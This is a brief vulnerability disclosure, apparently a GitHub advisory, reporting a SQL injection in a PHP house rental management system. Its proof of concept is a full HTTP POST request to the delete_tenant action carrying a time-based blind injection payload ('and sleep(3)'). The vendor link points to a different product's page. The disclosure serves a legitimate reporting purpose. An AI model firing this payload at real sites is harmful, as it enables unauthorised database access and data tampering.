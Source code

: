 1.1.house rental management system sql inject

2.Description The system Client doesn't properly sanitise POST parameter, which result into a Ssql inject.

3.Vendor Homepage https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html#google_vignette

4.Author will@webray.com.cn inc

5.Proof of Concept 

(1)The request packet is as follows

POST /rental/ajax.php?action=delete_tenant HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 20
Origin: 
Sec-GPC: 1
Connection: close
Referer: http://127.0.0.1/rental/index.php?page=tenants
Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

id=4+and+sleep(3)--+
![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/house-rental-management-system1.png)

(2)The vulnerability code is as follows

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/house-rental-management-system2.png)

